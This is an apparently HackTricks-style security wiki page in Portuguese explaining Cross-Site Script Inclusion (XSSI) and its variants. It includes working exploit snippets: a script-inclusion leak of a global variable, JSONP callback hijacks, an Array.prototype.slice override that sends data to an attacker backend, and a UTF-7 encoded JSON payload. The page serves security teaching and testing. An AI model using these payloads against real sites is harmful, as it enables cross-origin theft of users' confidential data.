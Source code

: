 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}


## Informações Básicas

**Cross-Site Script Inclusion (XSSI)** é uma vulnerabilidade que surge da natureza da tag `script` em HTML. Ao contrário da maioria dos recursos, que estão sujeitos à **Same-Origin Policy (SOP)**, scripts podem ser incluídos de diferentes domínios. Esse comportamento é destinado a facilitar o uso de bibliotecas e outros recursos hospedados em servidores diferentes, mas também introduz um potencial risco de segurança.

### Características Principais do **XSSI**:
- **Bypass do SOP**: Scripts estão isentos da **Same-Origin Policy**, permitindo que sejam incluídos entre domínios.
- **Exposição de Dados**: Um atacante pode explorar esse comportamento para ler dados carregados via tag `script`.
- **Impacto em JavaScript Dinâmico/JSONP**: **XSSI** é particularmente relevante para JavaScript dinâmico ou **JSON com Padding (JSONP)**. Essas tecnologias frequentemente usam informações de "autoridade-ambiental" (como cookies) para autenticação. Quando uma solicitação de script é feita para um host diferente, essas credenciais (por exemplo, cookies) são automaticamente incluídas na solicitação.
- **Vazamento de Token de Autenticação**: Se um atacante conseguir enganar o navegador de um usuário para solicitar um script de um servidor que ele controla, pode ser capaz de acessar informações sensíveis contidas nessas solicitações.

### Tipos

1. **JavaScript Estático** - Esta representa a forma convencional de XSSI.
2. **JavaScript Estático com Autenticação** - Este tipo é distinto porque requer autenticação para acesso.
3. **JavaScript Dinâmico** - Envolve JavaScript que gera conteúdo dinamicamente.
4. **Não-JavaScript** - Refere-se a vulnerabilidades que não envolvem JavaScript diretamente.

**As seguintes informações são um resumo de [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Confira para mais detalhes.


### XSSI Regular
Nesta abordagem, informações privadas são incorporadas dentro de um arquivo JavaScript acessível globalmente. Os atacantes podem identificar esses arquivos usando métodos como leitura de arquivos, buscas por palavras-chave ou expressões regulares. Uma vez localizados, o script contendo informações privadas pode ser incluído em conteúdo malicioso, permitindo acesso não autorizado a dados sensíveis. Uma técnica de exploração de exemplo é mostrada abaixo:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI e Authenticated-JavaScript-XSSI
Esses tipos de ataques XSSI envolvem informações confidenciais sendo adicionadas dinamicamente ao script em resposta a uma solicitação do usuário. A detecção pode ser realizada enviando solicitações com e sem cookies e comparando as respostas. Se as informações diferirem, isso pode indicar a presença de informações confidenciais. Esse processo pode ser automatizado usando ferramentas como a extensão Burp [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

Se dados confidenciais estiverem armazenados em uma variável global, eles podem ser explorados usando métodos semelhantes aos usados no XSSI Regular. No entanto, se os dados confidenciais estiverem incluídos em uma resposta JSONP, os atacantes podem sequestrar a função de callback para recuperar as informações. Isso pode ser feito manipulando objetos globais ou configurando uma função para ser executada pela resposta JSONP, conforme demonstrado abaixo:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Para variáveis que não residem no namespace global, *prototype tampering* pode às vezes ser explorado. Esta técnica aproveita o design do JavaScript, onde a interpretação do código envolve percorrer a cadeia de protótipos para localizar a propriedade chamada. Ao substituir certas funções, como o `slice` de `Array`, os atacantes podem acessar e vazar variáveis não globais:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Mais detalhes sobre vetores de ataque podem ser encontrados no trabalho do Pesquisador de Segurança [Sebastian Lekies](https://twitter.com/slekies), que mantém uma lista de [vetores](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
A pesquisa de Takeshi Terada introduz outra forma de XSSI, onde arquivos Non-Script, como CSV, são vazados cross-origin ao serem incluídos como fontes em uma tag `script`. Instâncias históricas de XSSI, como o ataque de Jeremiah Grossman em 2006 para ler um catálogo de endereços completo do Google e o vazamento de dados JSON de Joe Walker em 2007, destacam a gravidade dessas ameaças. Além disso, Gareth Heyes descreve uma variante de ataque envolvendo JSON codificado em UTF-7 para escapar do formato JSON e executar scripts, eficaz em certos navegadores:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
